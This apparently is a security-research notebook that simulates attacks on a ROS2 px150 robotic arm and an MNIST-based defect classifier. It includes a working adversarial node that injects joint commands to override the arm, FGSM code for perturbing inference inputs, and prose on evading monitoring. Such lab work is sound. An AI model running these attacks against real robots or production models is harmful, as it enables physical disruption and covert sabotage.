# Attack scenarios for robotic process

## Scenario 1: Fixing the Robotic Arm Position to a Specific Pose
In this scenario, the "px150" robotic arm is simulated using the motion1.py script. This script directs the end-effector to continuously perform pick, pour, and place tasks between two points.

As an adversary, I am employing a command injection technique by running an unauthorized node, adversarial_node.py. This node is treated as authorized, assuming the adversary possesses the private key, has signed the certificate, and registered the node in the ROS Domain network, enabling it to interact with the robot. The adversarial node then fixes the robotic arm to a specific pose.

### Progress:
So far, the code functions correctly. However, I need to review the command frequency in adversarial_node.py, where self.timer_period=1.0 (seconds), and compare it to the command-sending frequency in motion1.py. The issue is that adversarial_node.py currently sends commands every second, but I am uncertain of the command frequency in motion1.py. Although the code is operational, asynchronous generation of pose-setting commands causes the robot to jitter between fixed poses from both scripts. To ensure the robotic arm remains fixed in the specified pose during the attack scenario, I need to synchronize the pose commands from adversarial_node.py with those in motion1.py.

### Simulation of Attack Scenario 1
Run the commands in the following order.

Open the docker container on terminal and source setup. 

In [ ]:
sh ./robot_target_practice/docker/start_attach_container.sh local

Use "screen" tool for multiple screens and source the setup.


In [ ]:
cd /root
. interbotix_ws/install/setup.bash
. work/install/setup.bash

Run the following command in one terminal to open a simulation of interbotix using "px150" robotic arm.

In [ ]:
ros2 launch interbotix_xsarm_control xsarm_control.launch.py robot_model:=px150 use_sim:=true

In other terminal run the following code of "motion1.py" script using the following command

In [ ]:
python3 motion1.py

In [ ]:
#!/usr/bin/env python3
import sys
import time

from interbotix_xs_modules.xs_robot.arm import InterbotixManipulatorXS
import numpy as np

"""
This script makes the end-effector perform pick, pour, and place tasks continuously between two points.
To get started, open a terminal and type:

    ros2 launch interbotix_xsarm_control xsarm_control.launch.py robot_model:=px150

Then change to this directory and type:

    python3 bartender.py
"""

def main():
    # Initialize the InterbotixManipulatorXS object
    bot = InterbotixManipulatorXS(
        robot_model='px150',
        group_name='arm',
        gripper_name='gripper',
    )

    if bot.arm.group_info.num_joints < 5:
        print("This demo requires the robot to have at least 5 joints!")
        sys.exit()

    # Initial position
    bot.arm.set_ee_pose_components(x=0.3, z=0.2)
    bot.arm.set_single_joint_position(joint_name='waist', position=np.pi / 2.0)
    bot.gripper.release()
    
    # Continuous loop between two points
    try:
        while True:
            # Move to the first point
            bot.arm.set_ee_cartesian_trajectory(x=0.1, z=-0.16)
            bot.gripper.grasp()
            time.sleep(1)  # Hold for demonstration purposes

            # Move to the second point
            bot.arm.set_ee_cartesian_trajectory(x=-0.1, z=0.16)
            bot.gripper.release()
            time.sleep(1)  # Hold for demonstration purposes

            # Rotate the waist to add variety to the movement
            bot.arm.set_single_joint_position(joint_name='waist', position=-np.pi / 2.0)
            time.sleep(1)

            bot.arm.set_single_joint_position(joint_name='waist', position=np.pi / 2.0)
            time.sleep(1)

    except KeyboardInterrupt:
        # This allows the user to stop the loop by pressing Ctrl+C
        print("Stopping the continuous motion.")
        bot.arm.go_to_home_pose()

if __name__ == '__main__':
    main()


Now in the other terminal run the "adversarial_node.py" scrip to simulate the attack

In [ ]:
python3 adversarial_node.py

In [ ]:
#!/usr/bin/env python3
import rclpy
from rclpy.node import Node
from interbotix_xs_msgs.msg import JointSingleCommand
import time

class AdversarialNode(Node):
    def __init__(self):
        super().__init__('adversarial_node')
        # Publisher to the joint_single command topic
        self.publisher_ = self.create_publisher(JointSingleCommand, '/px150/commands/joint_single', 10)
        
        # Adversarial command parameters
        self.joint_name = 'waist'  # Specify the joint to target
        self.target_position = 1.0  # Set to a specific angle (radians)
        self.timer_period = 0.05  # Send command every second to maintain position
        
        # Timer to publish at regular intervals
        self.timer = self.create_timer(self.timer_period, self.hold_position)

    def hold_position(self):
        # Create a JointSingleCommand message
        msg = JointSingleCommand()
        msg.name = self.joint_name
        msg.cmd = self.target_position  # Hold the joint at the target position
        
        # Publish the command
        self.publisher_.publish(msg)
        self.get_logger().info(f'Holding joint {self.joint_name} at position {self.target_position}')

def main(args=None):
    rclpy.init(args=args)
    adversarial_node = AdversarialNode()
    rclpy.spin(adversarial_node)

    # Shutdown once done
    adversarial_node.destroy_node()
    rclpy.shutdown()

if __name__ == '__main__':
    main()


---



## Attack Scenario 2: Financial Impact 
### Scenario 2.1: Data Poisoning Attack on Defect Detection System Leading to Gradual Quality Degradation
In this scenario, a robotic system used for real-time defect correction relies on data from a cloud-based, AI-driven defect detection model that uses a vision system to identify defects. Typically, when a defect is detected, the AI model signals the robotic arm to initiate corrective actions, such as pick, pour, and place tasks, to resolve the issue. However, an adversary introduces a sensor attack, injecting anomalies into the defect detection process. These anomalies distort the sensor readings, causing the AI model to misidentify or inaccurately assess defects.

As a result, the robotic system may either fail to detect actual defects or respond to non-existent ones, leading to low accuracy in the defect correction process. This attack not only reduces the quality of the product but also increases the operational costs for the organization, as additional resources are spent on handling false positives and repairing defects missed due to inaccurate detection. Over time, these inaccuracies can significantly impact the organization’s financial performance by increasing production costs and reducing customer satisfaction due to inconsistent product quality.

In this attack scenario, an adversary performs a data poisoning attack on a cloud-based, AI-driven defect detection model used for real-time quality control in automated defect correction. By subtly altering inference data with noise, minor distortions, or label inaccuracies, the adversary gradually reduces the model's accuracy without immediate detection. This leads to an increasing number of defective products bypassing quality control, resulting in more customer complaints, returns, and financial losses over time. The attack persists undetected, evading standard monitoring systems and security measures, causing long-term degradation in quality assurance and financial impact.

### Scenario 2.2: Actuator Attack - Command Injection via ROS2 Node or Script Modification Causing Inaccurate Defect Correction
In this scenario, a robotic application for real-time defect correction, controlled by a cloud-based, AI-driven defect detection model, is manipulated to simulate an actuator attack. Normally, upon detecting a defect, the AI model sends a command to the robot, which then executes the pick, pour, and place tasks once to correct the defect. However, an adversary introduces an attack by modifying the robot's operational script (e.g., bartender.py) or injecting an additional malicious node that alters the movement coordinates or adds unintended actions to the task sequence.

The adversary’s modifications could cause the robotic arm to perform extra, inaccurate movements after defect correction, potentially scratching or damaging the product. This recurring inaccuracy diminishes the defect correction process's effectiveness and increases operational costs over time, leading to a measurable financial impact on the organization. This scenario highlights how vulnerabilities in the control system can degrade precision in robotic applications and escalate maintenance or production costs when left unmitigated.

---



# Scenario 2.1: Data Poisoning Attack on Defect Detection System Leading to Gradual Quality Degradation

In this scenario, an adversary executes a data poisoning attack to degrade the performance of a cloud-based, AI-driven defect detection model used in an automated defect correction process. By subtly manipulating the model's inference data, the adversary causes a slow, steady decline in the accuracy of defect detection over time, allowing more defective products to bypass quality control.

## Attack Objectives and Mechanism

- **Gradual and Long-Term Degradation**: Through carefully manipulated inference data, the adversary introduces subtle changes—such as noise, minor distortions, or label inaccuracies—into the model's pipeline. This gradually decreases defect detection accuracy, ensuring the degradation remains largely undetected by standard monitoring systems.

- **Inference Data Manipulation**: Manipulating inference data in real-time, rather than altering training data, allows the adversary to bypass the need for model retraining. This method reduces the model’s accuracy consistently with each inference, creating an undetected, accumulating impact.

- **Consistent and Persistent Impact**: The attack subtly affects all inference data, leading to a uniform reduction in defect detection performance. This ensures that the degradation is distributed across all detected defects, avoiding sudden or obvious failures that would trigger alerts.

## Business Impact of Data Poisoning

- **Reduced Quality Control Effectiveness**: As the model’s defect detection accuracy declines, an increasing number of defective products pass through the quality control process undetected. This results in quality control failures that compromise the overall product quality, leading to a higher incidence of defects in customer-delivered products.

- **Increased Customer Complaints and Returns**: The gradual influx of defective products reaching customers will lead to increased complaints, returns, and negative feedback. This, in turn, could result in higher warranty claim volumes, recalls, and customer dissatisfaction.

- **Financial Loss**: The cumulative impact of missed defects leads to significant direct and indirect costs. Increased refunds, replacements, repairs, and damage to the brand’s reputation all contribute to long-term financial consequences for the organization.

## Advantages of Data Poisoning for the Adversary

- **Persistence and Low Detectability**: The subtle degradation of model performance allows the attack to persist over time without arousing immediate suspicion. Standard quality control and security measures are less likely to identify the root cause due to the gradual nature of the attack.

- **Evasion of Security Measures**: By blending in with regular inference data, data poisoning evades detection by typical anomaly or integrity monitoring systems, allowing the model’s baseline accuracy to degrade unnoticed.

## Recommended Strategy

Through consistent, minor alterations to inference data, such as adding noise or slight label modifications, the adversary successfully degrades the model’s accuracy over time. This results in a greater number of defects passing undetected through quality control, ultimately leading to increased financial losses and reputational harm. This approach achieves the adversary’s goal of causing persistent, long-term impact on quality assurance and the business's financial performance.


In [ ]:
source cr/bin/activate

NameError: name 'source' is not defined

The below code is "training_cnn_minst" that moves the robot to two specific movements P1 and P2 based on detected defect types (D1 or D2).

In [ ]:
python3 training_cnn_minst.py

### Summary of Model Training and Evaluation Code

#### Model Structure
This code defines a **Convolutional Neural Network (CNN)** model to classify handwritten digits from the MNIST dataset. The CNN model architecture includes:
- **Convolutional Layers**:
  - `conv1`: 32 filters, kernel size 3x3, stride 1, padding 1
  - `conv2`: 64 filters, kernel size 3x3, stride 1, padding 1
- **Pooling Layer**:
  - MaxPooling with a 2x2 kernel to reduce spatial dimensions.
- **Fully Connected Layers**:
  - `fc1`: Fully connected layer with 128 neurons
  - `fc2`: Output layer with 10 neurons (one for each digit class)

This architecture is effective for image-based classification tasks and is optimized to achieve high accuracy on the MNIST dataset.

#### Model Parameters
- **Optimizer**: Adam optimizer with default parameters.
- **Loss Function**: Cross-entropy loss for multi-class classification.
- **Training Parameters**:
  - **Batch Size**: 64 for training, 1000 for testing
  - **Epochs**: 10

#### Dataset and Preprocessing
- The model is trained on the **MNIST dataset**, a widely used dataset of 28x28 grayscale images representing handwritten digits (0-9).
- Images are normalized to have a mean of 0.5 and a standard deviation of 0.5 for improved convergence.

#### Training and Validation
The `train_model` function tracks:
- **Training Loss**: Recorded per epoch
- **Validation Accuracy**: Measured on the test set after each epoch

These metrics are plotted and saved to visualize model performance over time.

#### Evaluation Metrics
1. **Overall Test Accuracy**: Computed on the test dataset after training.
2. **Confusion Matrix**: Visualizes the distribution of true vs. predicted classes.
3. **Classification Report**: Includes precision, recall, and F1-score for each class.
4. **ROC and Precision-Recall Curves**: Plotted for each digit class to evaluate model performance across various thresholds.

#### Output and Storage
- Results are saved in the `./results` directory, including:
  - Training loss and validation accuracy plots (`training_metrics.png`)
  - Confusion matrix (`confusion_matrix.png`)
  - Classification report in CSV format
  - ROC and Precision-Recall curves for each class
  
This code provides a complete pipeline for training, evaluating, and visualizing the performance of a CNN model on the MNIST dataset.


In [ ]:
import os
import torch
import torch.nn as nn
import torch.optim as optim
import torchvision.transforms as transforms
from torchvision.datasets import MNIST
from torch.utils.data import DataLoader
import numpy as np
import matplotlib.pyplot as plt
from sklearn.metrics import confusion_matrix, classification_report, roc_curve, auc, precision_recall_curve
import seaborn as sns
import pandas as pd

# Set device
device = torch.device("cuda" if torch.cuda.is_available() else "cpu")

# Define paths for MNIST dataset and saved model
mnist_path = "./mnist_data"
model_path = "./cnn_mnist_model.pth"
results_dir = "./results"

# Create results directory if it doesn't exist
os.makedirs(results_dir, exist_ok=True)

# Download MNIST if not already downloaded
def download_mnist():
    if not os.path.exists(mnist_path):
        os.makedirs(mnist_path)
    if len(os.listdir(mnist_path)) == 0:
        print("Downloading MNIST dataset...")
        _ = MNIST(root=mnist_path, train=True, download=True)
        _ = MNIST(root=mnist_path, train=False, download=True)
        print("Download complete.")
    else:
        print("MNIST dataset already exists.")

download_mnist()

# Load MNIST dataset
transform = transforms.Compose([transforms.ToTensor(), transforms.Normalize((0.5,), (0.5,))])
train_dataset = MNIST(root=mnist_path, train=True, transform=transform)
test_dataset = MNIST(root=mnist_path, train=False, transform=transform)

train_loader = DataLoader(train_dataset, batch_size=64, shuffle=True)
test_loader = DataLoader(test_dataset, batch_size=1000, shuffle=False)

# Define a CNN model with high accuracy for MNIST
class CNN(nn.Module):
    def __init__(self):
        super(CNN, self).__init__()
        self.conv1 = nn.Conv2d(1, 32, kernel_size=3, stride=1, padding=1)
        self.conv2 = nn.Conv2d(32, 64, kernel_size=3, stride=1, padding=1)
        self.pool = nn.MaxPool2d(kernel_size=2, stride=2)
        self.fc1 = nn.Linear(64 * 7 * 7, 128)
        self.fc2 = nn.Linear(128, 10)

    def forward(self, x):
        x = self.pool(torch.relu(self.conv1(x)))
        x = self.pool(torch.relu(self.conv2(x)))
        x = x.view(-1, 64 * 7 * 7)
        x = torch.relu(self.fc1(x))
        x = self.fc2(x)
        return x

# Training and evaluation functions with accuracy, loss tracking
def train_model(model, train_loader, epochs=10):
    criterion = nn.CrossEntropyLoss()
    optimizer = optim.Adam(model.parameters())
    model.train()
    train_losses, val_accuracies = [], []
    for epoch in range(epochs):
        running_loss = 0.0
        for images, labels in train_loader:
            images, labels = images.to(device), labels.to(device)
            optimizer.zero_grad()
            outputs = model(images)
            loss = criterion(outputs, labels)
            loss.backward()
            optimizer.step()
            running_loss += loss.item()
        avg_loss = running_loss / len(train_loader)
        train_losses.append(avg_loss)
        val_accuracy, _, _ = evaluate_model(model, test_loader)
        val_accuracies.append(val_accuracy)
        print(f"Epoch {epoch + 1}/{epochs}, Loss: {avg_loss:.4f}, Validation Accuracy: {val_accuracy:.2%}")
    return train_losses, val_accuracies

# Evaluate model and return accuracy and predictions
def evaluate_model(model, test_loader):
    model.eval()
    correct = 0
    total = 0
    all_preds, all_labels = [], []
    with torch.no_grad():
        for images, labels in test_loader:
            images, labels = images.to(device), labels.to(device)
            outputs = model(images)
            _, predicted = torch.max(outputs, 1)
            total += labels.size(0)
            correct += (predicted == labels).sum().item()
            all_preds.extend(predicted.cpu().numpy())
            all_labels.extend(labels.cpu().numpy())
    accuracy = correct / total
    return accuracy, all_preds, all_labels

# Plot training and validation accuracy/loss and save
def plot_training_metrics(train_losses, val_accuracies):
    epochs = range(1, len(train_losses) + 1)
    plt.figure(figsize=(12, 5))
    plt.subplot(1, 2, 1)
    plt.plot(epochs, train_losses, label='Training Loss')
    plt.xlabel('Epochs')
    plt.ylabel('Loss')
    plt.title('Training Loss per Epoch')
    plt.legend()
    plt.subplot(1, 2, 2)
    plt.plot(epochs, val_accuracies, label='Validation Accuracy')
    plt.xlabel('Epochs')
    plt.ylabel('Accuracy')
    plt.title('Validation Accuracy per Epoch')
    plt.legend()
    plt.savefig(os.path.join(results_dir, 'training_metrics.png'))
    plt.show()

# Confusion matrix and classification report
def plot_confusion_matrix(all_labels, all_preds):
    cm = confusion_matrix(all_labels, all_preds)
    plt.figure(figsize=(8, 6))
    sns.heatmap(cm, annot=True, fmt="d", cmap="Blues", xticklabels=range(10), yticklabels=range(10))
    plt.xlabel("Predicted")
    plt.ylabel("Actual")
    plt.title("Confusion Matrix")
    plt.savefig(os.path.join(results_dir, 'confusion_matrix.png'))
    plt.show()
    report = classification_report(all_labels, all_preds, output_dict=True)
    pd.DataFrame(report).transpose().to_csv(os.path.join(results_dir, 'classification_report.csv'))

# ROC and Precision-Recall curves for multi-class
def plot_roc_pr_curves(all_labels, all_probs, num_classes=10):
    fpr, tpr, roc_auc, precision, recall, pr_auc = {}, {}, {}, {}, {}, {}
    for i in range(num_classes):
        fpr[i], tpr[i], _ = roc_curve(all_labels == i, all_probs[:, i])
        roc_auc[i] = auc(fpr[i], tpr[i])
        precision[i], recall[i], _ = precision_recall_curve(all_labels == i, all_probs[:, i])
        pr_auc[i] = auc(recall[i], precision[i])

    # Plot ROC curve
    plt.figure(figsize=(12, 5))
    for i in range(num_classes):
        plt.plot(fpr[i], tpr[i], label=f"Class {i} (AUC = {roc_auc[i]:.2f})")
    plt.plot([0, 1], [0, 1], 'k--')
    plt.xlabel("False Positive Rate")
    plt.ylabel("True Positive Rate")
    plt.title("ROC Curve")
    plt.legend()
    plt.savefig(os.path.join(results_dir, 'roc_curve.png'))
    plt.show()

    # Plot Precision-Recall curve
    plt.figure(figsize=(12, 5))
    for i in range(num_classes):
        plt.plot(recall[i], precision[i], label=f"Class {i} (AUC = {pr_auc[i]:.2f})")
    plt.xlabel("Recall")
    plt.ylabel("Precision")
    plt.title("Precision-Recall Curve")
    plt.legend()
    plt.savefig(os.path.join(results_dir, 'precision_recall_curve.png'))
    plt.show()

# Main execution
if os.path.exists(model_path):
    model = CNN().to(device)
    model.load_state_dict(torch.load(model_path))
    print("Loaded pre-trained model.")
else:
    model = CNN().to(device)
    print("Training model from scratch...")
    train_losses, val_accuracies = train_model(model, train_loader, epochs=10)
    plot_training_metrics(train_losses, val_accuracies)
    pd.DataFrame({"Epoch": range(1, len(train_losses) + 1), "Train Loss": train_losses, "Val Accuracy": val_accuracies}).to_csv(os.path.join(results_dir, 'training_metrics.csv'), index=False)
    torch.save(model.state_dict(), model_path)

# Evaluate and plot final metrics
accuracy, all_preds, all_labels = evaluate_model(model, test_loader)
print(f"Test Accuracy: {accuracy:.2%}")
plot_confusion_matrix(all_labels, all_preds)

# Obtain probabilities for ROC and PR curves
all_probs = []
model.eval()
with torch.no_grad():
    for images, _ in test_loader:
        images = images.to(device)
        outputs = model(images)
        all_probs.append(torch.softmax(outputs, dim=1).cpu().numpy())
all_probs = np.concatenate(all_probs, axis=0)

plot_roc_pr_curves(np.array(all_labels), all_probs)


In [ ]:
(cr) abm@Ubuntu22:~/AI_Model$ python3 training_cnn_minst.py 
MNIST dataset already exists.
Training model from scratch...
Epoch 1/10, Loss: 0.1592, Validation Accuracy: 98.65%
Epoch 2/10, Loss: 0.0456, Validation Accuracy: 98.83%
Epoch 3/10, Loss: 0.0320, Validation Accuracy: 99.01%
Epoch 4/10, Loss: 0.0231, Validation Accuracy: 99.18%
Epoch 5/10, Loss: 0.0177, Validation Accuracy: 99.14%
Epoch 6/10, Loss: 0.0144, Validation Accuracy: 99.01%
Epoch 7/10, Loss: 0.0113, Validation Accuracy: 99.01%
Epoch 8/10, Loss: 0.0105, Validation Accuracy: 98.93%
Epoch 9/10, Loss: 0.0085, Validation Accuracy: 99.11%
Epoch 10/10, Loss: 0.0059, Validation Accuracy: 99.12%
Test Accuracy: 99.12%










In [1]:

from IPython.display import Image, display
# Display saved plot image
display(Image(filename='./AI_Model/results/training_metrics.png'))
display(Image(filename='./AI_Model/results/precision_recall_curve.png'))
display(Image(filename='./AI_Model/results/roc_curve.png'))
display(Image(filename='./AI_Model/results/confusion_matrix.png'))

The below code is inference_attack.py


In [ ]:
import os
import torch
import random
import torchvision.transforms as transforms
from torchvision.datasets import MNIST
import time
import torch.nn as nn
import numpy as np
import matplotlib.pyplot as plt
from sklearn.metrics import confusion_matrix
import seaborn as sns
import pandas as pd

# Set device
device = torch.device("cuda" if torch.cuda.is_available() else "cpu")

# Load MNIST test dataset
mnist_path = "./mnist_data"
transform = transforms.Compose([transforms.ToTensor(), transforms.Normalize((0.5,), (0.5,))])
test_dataset = MNIST(root=mnist_path, train=False, transform=transform)

# Load pre-trained model
model_path = "./cnn_mnist_model.pth"

class CNN(nn.Module):
    def __init__(self):
        super(CNN, self).__init__()
        self.conv1 = nn.Conv2d(1, 32, kernel_size=3, stride=1, padding=1)
        self.conv2 = nn.Conv2d(32, 64, kernel_size=3, stride=1, padding=1)
        self.pool = nn.MaxPool2d(kernel_size=2, stride=2)
        self.fc1 = nn.Linear(64 * 7 * 7, 128)
        self.fc2 = nn.Linear(128, 10)

    def forward(self, x):
        x = self.pool(torch.relu(self.conv1(x)))
        x = self.pool(torch.relu(self.conv2(x)))
        x = x.view(-1, 64 * 7 * 7)
        x = torch.relu(self.fc1(x))
        x = self.fc2(x)
        return x

# Load model
model = CNN().to(device)
model.load_state_dict(torch.load(model_path))
model.eval()
print("Loaded model for inference.")

# Directory paths
without_attack_dir = "./inference_results/without_attack"
with_attack_dir = "./inference_results/with_attack"
os.makedirs(without_attack_dir, exist_ok=True)
os.makedirs(with_attack_dir, exist_ok=True)

# Functions for benchmarking and plotting
def calculate_and_save_metrics(all_labels, all_preds, inference_times, poisoned_labels, poisoned_preds, save_dir):
    # Calculate accuracy, confusion matrix, and average inference time
    accuracy = sum(np.array(all_preds) == np.array(all_labels)) / len(all_labels)
    cm = confusion_matrix(all_labels, all_preds)
    avg_inference_time = np.mean(inference_times)
    
    # Calculate poisoned sample accuracy only if poisoned samples exist
    if poisoned_labels:
        poisoned_accuracy = sum(np.array(poisoned_preds) == np.array(poisoned_labels)) / len(poisoned_labels)
    else:
        poisoned_accuracy = None  # No poisoned samples, set accuracy to None or 0

    # Print and save metrics
    print(f"Final Results - Overall Accuracy: {accuracy:.2%}, Average Inference Time: {avg_inference_time:.6f} seconds")
    if poisoned_accuracy is not None:
        print(f"Poisoned Sample Accuracy: {poisoned_accuracy:.2%}")
    
    # Save confusion matrix
    plt.figure(figsize=(8, 6))
    sns.heatmap(cm, annot=True, fmt="d", cmap="Blues", xticklabels=range(10), yticklabels=range(10))
    plt.xlabel("Predicted Label")
    plt.ylabel("True Label")
    plt.title("Confusion Matrix")
    plt.savefig(os.path.join(save_dir, 'confusion_matrix.png'))
    plt.close()
    
    # Save accuracy and inference time
    metrics = {
        "Total Iterations": [len(all_labels)],
        "Overall Accuracy": [accuracy],
        "Average Inference Time": [avg_inference_time],
        "Poisoned Sample Accuracy": [poisoned_accuracy if poisoned_accuracy is not None else "N/A"]
    }
    df = pd.DataFrame(metrics)
    df.to_csv(os.path.join(save_dir, "final_metrics.csv"), index=False)


# FGSM-based data poisoning function
def fgsm_attack(image, epsilon, data_grad):
    # Create perturbed image by adjusting each pixel
    sign_data_grad = data_grad.sign()
    perturbed_image = image + epsilon * sign_data_grad
    perturbed_image = torch.clamp(perturbed_image, 0, 1)
    return perturbed_image

def poison_image_with_fgsm(model, image, label, epsilon=0.3):
    image.requires_grad = True
    output = model(image)
    loss = nn.CrossEntropyLoss()(output, torch.tensor([label]).to(device))
    model.zero_grad()
    loss.backward()
    data_grad = image.grad.data
    poisoned_image = fgsm_attack(image, epsilon, data_grad)
    return poisoned_image

# Run inference without attack and with FGSM attack on 50 random samples
for attack in [False, True]:
    all_preds, all_labels, inference_times = [], [], []
    poisoned_preds, poisoned_labels = [], []
    save_dir = with_attack_dir if attack else without_attack_dir
    print(f"\nRunning inference with{'out' if not attack else ''} attack...")

    # Select 50 random indices for poisoning if attack is True
    poison_indices = random.sample(range(1000), 50) if attack else []

    for i in range(1000):  # 1000 iterations
        # Randomly select a sample
        index = random.randint(0, len(test_dataset) - 1)
        image, true_label = test_dataset[index]
        
        # Apply poisoning attack if the index is in poison_indices
        if attack and i in poison_indices:
            image = poison_image_with_fgsm(model, image.unsqueeze(0).to(device), true_label)
            poisoned_labels.append(true_label)
        else:
            image = image.unsqueeze(0).to(device)
        
        # Measure inference time
        start_time = time.time()
        with torch.no_grad():
            output = model(image)
            _, predicted_label = torch.max(output, 1)
        inference_time = time.time() - start_time
        inference_times.append(inference_time)
        
        # Store results
        all_preds.append(predicted_label.item())
        all_labels.append(true_label)
        
        # Track results for poisoned samples
        if attack and i in poison_indices:
            poisoned_preds.append(predicted_label.item())

    # Calculate and save metrics after 1000 iterations
    calculate_and_save_metrics(all_labels, all_preds, inference_times, poisoned_labels, poisoned_preds, save_dir)

print("\nInference with and without attack completed.")

# Compare results
def compare_results():
    print("\nComparison between Without Attack and With Attack:")
    without_attack_metrics = pd.read_csv(os.path.join(without_attack_dir, "final_metrics.csv"))
    with_attack_metrics = pd.read_csv(os.path.join(with_attack_dir, "final_metrics.csv"))
    
    print(f"\nWithout Attack - Overall Accuracy: {without_attack_metrics['Overall Accuracy'].iloc[0]:.2%}, "
          f"Average Inference Time: {without_attack_metrics['Average Inference Time'].iloc[0]:.6f} seconds")
    
    print(f"With Attack    - Overall Accuracy: {with_attack_metrics['Overall Accuracy'].iloc[0]:.2%}, "
          f"Average Inference Time: {with_attack_metrics['Average Inference Time'].iloc[0]:.6f} seconds")
    print(f"Poisoned Sample Accuracy (With Attack): {with_attack_metrics['Poisoned Sample Accuracy'].iloc[0]:.2%}")

# Run comparison
compare_results()


In [ ]:
(cr) abm@Ubuntu22:~/AI_Model$ python3 inference_attack.py 
